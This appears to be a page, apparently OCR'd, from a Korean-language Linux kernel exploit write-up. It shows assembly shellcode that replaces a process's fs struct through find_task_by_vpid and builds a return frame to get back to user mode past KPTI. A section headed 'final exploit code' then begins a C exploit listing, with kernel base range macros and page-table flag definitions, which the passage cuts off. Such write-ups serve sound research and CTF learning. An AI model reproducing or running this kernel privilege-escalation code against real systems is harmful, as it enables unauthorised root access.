 ```nasm
  call rax; // current = find_task_by_vpid(pid)
  mov [rax + 0x6e0], rbx; // current->fs = new_fs

  // bypass kpti
  xor rax, rax;
  mov [rsp + 0x00], rax;
  mov [rsp + 0x08], rax;
  mov rax, 0x2222222222222222; // user_ip: will be fixed
  mov [rsp + 0x10], rax;
  mov rax, 0x3333333333333333; // user_cs: will be fixed
  mov [rsp + 0x18], rax;
  mov rax, 0x4444444444444444; // user_rflags: will be fixed
  mov [rsp + 0x20], rax;
  mov rax, 0x5555555555555555; // user_sp: will be fixed
  mov [rsp + 0x28], rax;
  mov rax, 0x6666666666666666; // user_ss: will be fixed
  mov [rsp + 0x30], rax;
  lea rax, [r15 + 0xc00f06]; // bypass_kpti - kbase == 0xc00f06; bypass_kpti is in swapgs_restore_regs_and_return_to_usermode
  jmp rax; // bypass_kpti
```

## 최종 익스 코드

```c
#define _GNU_SOURCE
#include <fcntl.h>
#include <linux/keyctl.h>
#include <poll.h>
#include <pthread.h>
#include <sched.h>
#include <stdarg.h>
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/mman.h>
#include <sys/syscall.h>
#include <sys/wait.h>
#include <syscall.h>
#include <unistd.h>

#define KERNEL_BASE_START 0xffffffff81000000
#define KERNEL_BASE_END 0xffffffffc0000000
#define KERNEL_BASE_MASK (~0x00000000000fffff)
#define IS_IN_KERNEL_RANGE(addr) \
  ((addr) >= KERNEL_BASE_START && (addr) < KERNEL_BASE_END)

#define _PAGE_PRESENT (1ULL << 0)  // Page is present in memory
#define _PAGE_RW (1ULL << 1)       // Read/Write permission (1: writable)
#define _PAGE_USER (1ULL << 2)     // User/Supervisor mode (1: user-accessible)
#define _PAGE_PWT (1ULL << 3)  // Page Write-Through (1: write-through enabled)
#define _PAGE_PCD (1ULL << 4)  // Page Cache Disable (1: caching disabled)
#define _PAGE_ACCESSED (1ULL << 5)  // Accessed bit (1: page has been accessed)
#define _PAGE_DIRTY (1ULL << 6)     // Dirty bit (1: page has been modified)
#define _PAGE_PSE \
  (1ULL << 7)  // Page Size Extension (1: 2MB/1GB page, 0: 4KB page)
#define _PAGE_GLOBAL \
  (1ULL << 8)  // Global page (1: remains in TLB across context switches)
#define _PAGE_NX (1ULL << 63)  // No-Execute bit (1: execution is prohibited)

#define PTE_FLAGS_MASK \
  0xFFF0000000000FFFULL  // Mask to extract the lower 12-bit flag field
```